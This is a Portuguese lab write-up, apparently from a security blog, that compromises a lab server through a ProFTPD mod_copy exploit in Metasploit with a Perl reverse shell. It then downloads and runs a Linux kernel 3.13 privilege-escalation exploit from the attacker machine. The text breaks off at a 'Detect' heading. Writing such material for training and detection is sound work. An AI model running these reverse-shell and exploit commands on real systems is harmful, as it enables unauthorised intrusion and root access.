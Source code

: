 ![nmap](nmap1.png)


## Exploiting
Usando o `msfconsole` > `search proftp` e encontrei o exploit [modcopy execution](https://www.exploit-db.com/exploits/37262).
```shell
use proftpd_modcopy_exec
set RHOST 192.168.56.210
set TARGETURI /
set SITEPATH /var/www/html/
set payload payload/cmd/unix/reverse_perl
set LHOST 192.168.56.109
exploit
```
{: file="Shell Kali"}
![proftp-exploit.png](proftp-exploit.png)

Agora com acesso ao shell, podemos escalonar privilégio. 
A história é mais longa do que isso, mas resumindo, usei um exploit para aquele kernel em específico.

No Kali Linux executei uma busca por aquela versão do kernel no exploitdb, e deixei o código malicioso disponível para download. 
```shell
searchsploit linux local kernel 3.13 ubuntu 14.04
searchsploit -m 37292.c
mv 37292.c /tmp
python3 -m http.server 80
```
{: file="Shell Kali"}

![searchsploit.png](searchsploit.png)

Voltando a console que ganhamos acesso com o usuário www-data, vamos baixar o exploit.
```shell
wget 192.168.56.109/37292.c
cd tmp
gcc 37292.c -o salve
./salve
whoami
```
{: file="Shell Web Server"}

![salve](salve.png)

Aqui é o fim da exploração, vamos ao lado azul da força ver o que foi loggado ao longo do processo.

# Detect 

## Detecting Scan 
